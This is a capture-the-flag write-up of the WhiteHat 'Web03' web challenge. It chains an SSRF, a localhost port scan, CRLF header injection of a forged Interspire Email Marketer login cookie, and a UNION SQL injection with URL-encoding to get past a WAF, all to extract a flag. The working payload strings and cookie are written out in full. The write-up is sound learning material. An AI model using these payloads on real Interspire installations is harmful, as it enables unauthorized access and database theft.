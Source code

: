 Web03  
Description: None  
web03.grandprix.whitehatvn.com:1337  
Solves: 10  
Points: 410  

--------------------------------------

The challenge starts with a web app that asks for a Host and a Urlpath. These are  
used to load remote web pages in the style of:

Host: 202.182.120.169:1337
Urlpath: index.php
Request = http://202.182.120.169:1337/index.php

![initialchallenge](screenshots/initialchallenge.png)

In the HTML comments of the page:  

`<!--<label>@Buxu: Let's try to access admin page</label></br> -->`  

After searching for /admin related pages on the website and finding nothing,  
I did a port scan of the localhost network. Using Burp Intruder I checked every  
port with requests:

Host: 127.0.0.0:{var}  
Urlpath: admin/

Eventually I discovered another web app running on 127.0.0.1:8088.

![Port8088](screenshots/port8088.png)

From here on, I used Burp  
repeater for all of my requests. It comes back in slightly encoded HTML, but I was able to roughly  
render it using the following site:

https://htmledit.squarefree.com/

The annoying process was:
1. Copy output from HTTP Response into top box of htmledit
2. Copy output from html edit back into the input for htmledit
3. Enjoy my not-so-beautifully rendered HTML

![htmlrender](screenshots/htmlrender.png)

At the time of writing this, I'm noticing that the output looks a LOT better if  
you receive it through the challenge app instead of through Burp. Oh well!

Back to exploiting:

The  web app on 8088 is a service called Interspire Email Marketer. After some quick
googling, I found the following on exploitdb:

https://www.exploit-db.com/exploits/44513/

TLDR; there's a master cookie that should let us bypass auth. Awesome! Except it's SSRF,  
so how to control the cookie...? CRLF!

(From here on, the Host is always "127.0.0.1:8088")

We can send requests in the following style:

Urlpath = `admin/index.php HTTP/1.1\r\nCookie: mycookie=foobar\r\n`

Using this format and the god cookie, we get the following ugly request:

```
admin/index.php \r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

After doing the render magic, it's shown that I suddenly have admin access (as buxuwa). Yay!  

![admin](screenshots/adminaccess_1.png)
![buxuwa](screenshots/buxuwa.png)

I got stuck here for a while, trying to find a flag in the contact lists or e-mails. After giving up on that,  
I found another vulnerability in Interspire Email Marketer on exploitdb:

https://www.exploit-db.com/exploits/37935/

There's a sqlinjection via the dynamiccontenttags Addon! We just need to use a payload of:

`?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1'+UNION+Select+1,2,3,4-- -`

When trying to get this to work, I quickly discovered there's a WAF that prevents certain
common SQLi commands from being sent via the challenge webapp.
`', ", UNION, OFFSET` were all forbidden.

![waf](screenshots/waf.png)

However, URL encoding any of these characters worked perfectly.  
`UNION` becomes `%55NION` (%55 == 'U')  
`'` becomes '%27'

(I've changed the 2 to 'Hello Hackers' for this screenshot)

![sqli](screenshots/sqli.png)
![rendered_sqli](screenshots/rendered_sqli.png)


From here it's very standard MySQL injection. Using the payloads here:  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

I was able to enumerate through databases, tables, and columns using the '2' in the UNION query above as my  
output point. (anything in that spot will be displayed in the response).

It's discovered that we're in database "emailmarketer" and there's a table called "flag_wh"
with column "s3cret":

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+Select+1,table_name,3,4+FROM+information_schema.tables+WHERE+table_schema+=%27emailmarketer%27--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag_wh](screenshots/flag_wh.png)
![flag_wh_rendered](screenshots/flag_wh_rendered.png)

Screenshot and query above shows finding the flag_wh table.


So now it's as easy as getting `s3cret` from `flag_wh`:

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+SELECT+1,s3cret,3,4+FROM+flag_wh--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag](screenshots/flag.png)
![flag](screenshots/flag_rendered.png)

`WhiteHat{cbb66097f69c3938bfd4a157ab4ebe762a16c1b1}`

After solving it, I was contacted by an admin who informed be that using dynamiccontenttags was not  
the intended solution. Apparently there's some other method to exploit it,  
but I have no idea what it is.
